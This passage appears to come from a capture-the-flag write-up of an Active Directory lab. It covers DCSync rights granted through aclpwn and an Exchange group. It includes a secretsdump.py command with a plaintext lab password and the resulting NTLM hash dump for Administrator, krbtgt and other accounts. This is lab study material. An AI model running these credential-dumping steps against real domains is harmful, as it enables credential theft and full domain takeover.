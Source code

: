 ```
1) we can if we have a path to Exchange group , to use this exploit and (Modifying domain DACL to give DCSync rights to a use) (see links about this exploit)with aclpwn
```
##### DCSync attack : 

DCSync works by requesting account password data from a Domain Controller. It can also ask Domain Controllers to replicate information using the Directory Replication Service Remote Protocol. All this can be done without running any code on a Domain Controller unlike some of the other ways Mimikatz extracts password data. What's even worse this attack takes advantage of a valid and necessary function of Active Directory, meaning it cannot be turned off or disabled. This being said we must rely on detection.
These hashes are stored in a database file in the domain controller (NTDS.DIT) with some additional information like group memberships and users.

The NTDS.DIT file is constantly in use by the operating system and therefore cannot be copied directly to another location for extraction of information. This file can be found in the following Windows location:    C:\Windows\NTDS\NTDS.dit

There are various techniques that can be used to extract this file or the information that is stored inside it however the majority of them are using one of these methods:

###### Domain Controller Replication 
###### Services Native Windows Binaries
###### WMI

In my case i will use (secretsdump.py and mimikatz)

#### Nota : When a user is part of a hight priviliged group, it can add the DCSync right.

So here aclpwn , add svc-alfresco user to a priviliged group "EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL" and add DCSync rights to it.

### Getting Credentials

From here i can dump all hashes from DC with an impacket tool like :
```
$ secretsdump.py     htb.local/svc-alfresco:s3rvice@forest.htb.local 
Impacket v0.9.19-dev - Copyright 2019 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```